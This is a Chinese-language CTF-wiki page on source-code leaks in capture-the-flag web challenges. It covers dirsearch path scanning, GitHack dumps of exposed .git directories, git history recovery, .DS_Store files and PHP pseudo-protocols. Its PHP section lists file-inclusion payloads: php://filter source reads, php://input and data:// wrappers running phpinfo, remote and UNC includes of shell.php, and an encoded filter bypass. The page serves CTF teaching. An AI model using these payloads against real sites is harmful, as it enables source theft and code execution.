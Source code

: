 # 源码泄露
!!! warning
    The current page still doesn't have a translation for this language.

    You can read it through google translate.

    Besides, you can also help to translate it: [Contributing](https://ctf-wiki.org/en/contribute/before-contributing/). 



很少很少会碰到flag放在泄露出来的源码里面


一般都是代码审计，所以会和其他很多东西交织在一起，属于一个比较中间的模块。

所以这里应该是不会有什么例子。

## dirsearch

其实就是一个软件的名称，用来扫后台路径的，讲不好可以扫出源码。


御剑我没用过hhh


（但是buu有访问限制会经常429.......所以记得加参数）


放上下载链接


[https://github.com/maurosoria/dirsearch](https://github.com/maurosoria/dirsearch)


git clone下载就能用了记得chmod +x


然后用法一般是

./dirsearch -u URL -x 404,429,500...(看需求) -t 5(线程数) -d 0.1(访问延迟)

## .git源码泄露

开发人员会使用 git 进行版本控制，对站点自动部署。但如果配置不当，可能会将 .git 文件夹直接部署到线上环境，这就引起了 git 泄露漏洞，我们可以利用这个漏洞直接获得网页源码。


通过网页访问 .git 目录，如果能访问就说明存在（权限不够也行）


要获取泄露的源码，可以使用 GitHack 工具


python（2） GitHack.py url


下载完之后的工作基本上是代码审计。


[https://github.com/BugScanTeam/GitHack](https://github.com/BugScanTeam/GitHack)


需要注意的，貌似我见过的都是py2写的，所以需要py2调用

## git文件修复

`git log --all`


一个是显示

`git reset --hard e5b2a2443c2b6d395d06960123142bc91123148c`


一个是恢复

## ds_store

在Mac OS上会存在。


DS_Store 是用来存储这个文件夹的显示属性的：比如文件图标的摆放位置。删除以后的副作用就是这些信息的失去。（当然，这点副作用其实不是太大）


主要是如果拿到了这个文件由于各种编码的原因会很难受


于是给出一个解析读取这类文件的脚本：

## php伪协议

其实这个东西应该放在文件包含和文件上传里面的。纠结了一下，但还是，决定两个地方都放着(不过不会放很多，大头还是放在那边)：


include、require、include_once、require_once、highlight_file 、show_source 、readfile 、file_get_contents 、fopen 、file


这些都是常见的文件包含函数伪协议依托于这些函数来执行。。


以常见的include为例好了


最长使用的为php://filter/read=convert.base64-encode/resource=[文件名]</code>读取文件源码（针对php文件需要base64编码）


会碰到include($_GET['NAME'])


然后你传个?NAME=php://filter/read=convert.base64-encode/resource=index.php


进去，然后就可以拿到index.php的base64编码的源码。


原理就是文件包含（之后介绍）


### php支持的伪协议有：


```plain
ftp://shell.php
file:///tmp/shell.php
http://xxxx/shell.php
\\smbserver\shell.php        //unc路径
phar://xxxx/x.zip/shell.php   //需将shell.php打包为x.zip上传
zip://xxxx/x.zip#shell.php    //需将shell.php打包为x.zip上传
php://filter/read=convert.base64-encode/resource=shell.php
compress.bzip2://shell.php
compress.zlib://shell.jpg
php://input    [POST DATA] <?php phpinfo()?>
data://text/plain,<?php phpinfo()?>                 //也可以data:text/plain,<?php phpinfo()?>
data://text/plain;base64,PD9waHAgcGhwaW5mbygpPz4=
php://filter/read=convert.base64-encode/resource=phar://phar.phar
php://filter/convert.base64-decode|convert.base64-decode/resource=shell.php
php://filter/%72ead=convert.base64-encode/resource=shell.%70hp
Plain Text
```



读文件常用的也就php：（访问各个输入/输出流（I/O streams））


和file:（还有local_file,这个之后再说，好像是个cve）


所谓的伪协议，事实上是其支持的协议与封装协议

## google

有些代码（比如说直接的服务器端框架性的）试能够直接用github和google直接搜索到的


因此这也是一种形式上的源码泄露。








